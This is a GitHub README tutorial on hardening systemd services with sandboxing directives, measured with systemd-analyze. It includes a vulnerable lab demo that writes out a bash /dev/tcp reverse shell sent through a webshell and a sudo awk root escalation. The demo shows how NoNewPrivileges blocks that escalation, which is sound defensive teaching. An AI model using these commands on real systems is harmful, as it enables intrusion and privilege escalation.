


# Systemd Service Hardening

This is a demonstration about the powerful of **systemd**.
From latest realeases, **systemd** implemented some interesting features. These features regards security, in particular the sandboxing.
The file `simplehttp.service` provides some of these directives made available by **systemd**.
The images show, step-by-step, how to harden the service using specific directives and check them with provided systemd tools.


by [alegrey91](https://github.com/alegrey91/systemd-service-hardening).

## Debugging

Systemd made available an interesting tool named **systemd-analyze**.

The `systemd-analyze security` command generates a report about security exposure for each service present in our distribution.



This allow us to check the improvements applied to our **systemd** service, directive by directive.

As you can see, more of the **services** are actually marked as **UNSAFE**, this probably because not all applications still apply the features made available by **systemd**.


## Getting Started

Let's start from a basic command to start `python3 -m http.server` as a service:

```[Unit]
Description=Job that runs the python http.server daemon
Documentation=https://docs.python.org/3/library/http.server.html

[Service]
Type=simple
ExecStart=/usr/bin/python3 -m http.server
ExecStop=/bin/kill -9 $MAINPID

[Install]
WantedBy=multi-user.target
```

Checking the security exposure through `systemd-analyze security` we obtain the following result:



The security value is actually **9.6**/**10** and is marked as **UNSAFE**.

Let's see now, how to harden the current service to make it safer.

**N.B.** Not all of the following directives will be useful for the current service. It's just a demonstration on how to reduce the exposure for a generic **systemd** service.

### PrivateTmp

Creates a file system namespace under `/tmp/systemd-private-*-[unit name]-*/tmp` rather than a shared `/tmp` or `/var/tmp`. Many of the unit files that ship with Red Hat Enterprise Linux include  this setting and it removes an entire class of vulnerabilities around  the prediction and replacement of files used in `/tmp`.  [4]

This is how the service appear after the insertion of the following directive:

```
Description=Job that runs the python http.server daemon
Documentation=https://docs.python.org/3/library/http.server.html

[Service]
Type=simple
ExecStart=/usr/bin/python3 -m http.server
ExecStop=/bin/kill -9 $MAINPID

# Sandboxing features
PrivateTmp=yes

[Install]
WantedBy=multi-user.target
```

The result obtained from `systemd-analyze` is the following:

`simplehttp.service                        9.2 UNSAFE    😨`

Good! We lower down from **9.6** to **9.2**.

Let's see how to improve the final result.

### NoNewPrivileges

Prevents the service and related child processes from escalating privileges. [4]

Add the following row:

```NoNewPrivileges=true```

The result obtainer is now:

```simplehttp.service                        9.0 UNSAFE    😨```

### RestrictNamespaces

Restrict all or a subset of namespaces to the service. Accepts `cgroup`, `ipc`, `net`, `mnt`, `pid`, `user`, and `uts`. [4]

Add the following row:

```RestrictNamespaces=uts ipc pid user cgroup```

As you can see above, the `net` namespace has not been set due to the fact that the service needs to bind itself on a network interface.

Isolating `net` from a network service will cause the uselessness of this.

```simplehttp.service                        8.8 EXPOSED   😨```

### Final results

Once we added the other directives to the service, we obtained a service like this:

```[Unit]
Description=Job that runs the python http.server daemon
Documentation=https://docs.python.org/3/library/http.server.html

[Service]
Type=simple
ExecStart=/usr/bin/python3 -m http.server
ExecStop=/bin/kill -9 $MAINPID

# Sandboxing features
PrivateTmp=yes
NoNewPrivileges=true
ProtectSystem=strict
CapabilityBoundingSet=CAP_NET_BIND_SERVICE CAP_DAC_READ_SEARCH
RestrictNamespaces=uts ipc pid user cgroup
ProtectKernelTunables=yes
ProtectKernelModules=yes
ProtectControlGroups=yes
PrivateDevices=yes
RestrictSUIDSGID=true
IPAddressAllow=192.168.1.0/24

[Install]
WantedBy=multi-user.target
```

Reaching a really interesting result:

```simplehttp.service                        4.9 OK       😃``` 

Well done! We obtained a good result passing from **9.6** to **4.9**, partially securing the entire system.


## Demo

If you want to try by yourself to setup a common **systemd** service, I provided for you a basic **ansible** script to deploy a working environment to make some practice.

The ansible provisioner script is available under `ansible/` directory of the same repository.

This script deploy for you a little (vulnerable) environment to understand and configure the **php-fpm** **systemd** service, allowing you to reduce the attack surface, using some of the features listed above.

### Scenario

Suppose you have an **nginx** webserver which is hosting your php website. The scenario that I created, starts from the possibility to have a RCE, using the webshell uploaded by the attacker.

Once inside the system you'll be able to understand how, step-by-step, it's possible to reduce the attack surface just using some **systemd** feature.

### Prerequirements

To use the ansible script, you'll need at least a **CentOS 8.1** system to deploy the entire installation.

### Environment Setup

Once you installed the remote system, you are ready to deploy the environment with ansible following the steps below.

From your local machine, copy your ssh keys onto the remote system:

`ssh-copy-id root@your-webserver.ip`

Go under the `ansible/` directory of this repository:

`cd ansible/`

Define the `inventory` file replacing the conten of *ansible_host* variable with your webserver ip as shown below:

```ini
[php-webserver]

webserver ansible_host=your-webserver.ip
```

Deploy the environment with ansible:

`ansible-playbook -i inventory -v main.yml -u root`

Once finished you are ready to start the demo.

### Getting Started

Using your browser, you'll find the vulnerable service at http://your-webserver.ip/webshell.php.

You can gain a revers shell just using **netcat** from your local machine:

`nc -lnvp 4444`, 

and put this command onto the webshell input form:

`bash -i >& /dev/tcp/your-local.ip/4444 0>&1`.

The result is show in the image below:


At this time you're ready to check step-by-step the improvements of **systemd** features.

#### Step #1 (exploitation)

Once inside the system we can try to exploit it by searching for misconfigurations.

One of them is located into the `/etc/sudoers` file.

We can recognize this by typing the command `sudo -l`.

The result is shown below:

`(root) NOPASSWD: /usr/bin/awk`

This means we can use `awk` as sudo.

To exploit this misconfiguration we can use the following command:

`sudo /usr/bin/awk 'BEGIN {system("/bin/sh")}'`

At this point we should have become the **root** user!

But, how can we protect ourselves form this kind of privilege escalation? The answer is explained on the following rows.

#### Step #2 (hardenization)

First of all, verify the security exposure of **php-fpm.service** by typing:

`systemd-analyze security php-fpm`

The result is:

`→ Overall exposure level for php-fpm.service: 9.2 UNSAFE 😨`.

Now, edit the **php-fpm** service by typing:

`systemctl edit --full php-fpm`,

and add the following feature under the `[Service]` section:

`NoNewPrivileges=true`

This permits to block some kind of privilege escalation from the current user to another (in out case from **apache** to **root**).

#### Step #3 (verification)

Check the entered feature is available and typo errors are not presents:

`systemd-analyze verify php-fpm.service`

Verify the security exposure now:

```bash
systemd-analyze security php-fpm.service
→ Overall exposure level for php-fpm.service: 9.0 UNSAFE 😨
```

We reduced the exposure of **0.2** points.

Restart the php-fpm service:

`systemctl restart php-fpm`,

and try to repeat the exploitation.

#### Step #4 (2nd exploitation)

As you can observe now, the command `sudo -l` report to us the following message:

`sudo: effective uid is not 0, is sudo installed setuid root?`.

This means we have prevented the privilege escalation enabling the `NoNewPrivileges` feature!

#### Conclusion

After the demo, you can find the hardenized file for php-fpm **systemd** service under `ansible/file/php-fpm.service`.


## Credits

A special thanks to [ghibbo](https://github.com/ghibbo) for his help and support during the tests.


## References

1. https://lincolnloop.com/blog/sandboxing-services-systemd/
2. https://dev.to/djmoch/hardening-services-with-systemd-2md7
3. https://www.ctrl.blog/entry/systemd-service-hardening.html
4. https://www.redhat.com/sysadmin/mastering-systemd
5. http://man7.org/linux/man-pages/man7/capabilities.7.html
6. https://tim.siosm.fr/blog/2018/09/02/linux-system-hardening-thanks-to-systemd/